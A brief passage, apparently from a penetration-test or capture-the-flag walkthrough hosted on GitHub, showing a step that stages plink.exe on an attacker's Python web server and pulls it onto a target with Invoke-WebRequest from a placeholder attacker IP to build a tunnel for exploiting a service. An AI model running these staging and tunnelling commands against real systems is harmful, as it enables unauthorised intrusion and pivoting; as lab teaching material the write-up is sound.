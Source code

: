 <img width="719" height="377" alt="SCREEN11" src="https://github.com/user-attachments/assets/de143d81-e134-45ad-a5d7-c8125a9e56fd" />

4. Download plink.exe to establish a tunnel for exploiting the identified service

```bash
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
python -m SimpleHTTPServer
```

```bash
Invoke-WebRequest -Uri http://<ATTACKER_IP>:8000/plink.exe -Outfile plink.exe
```

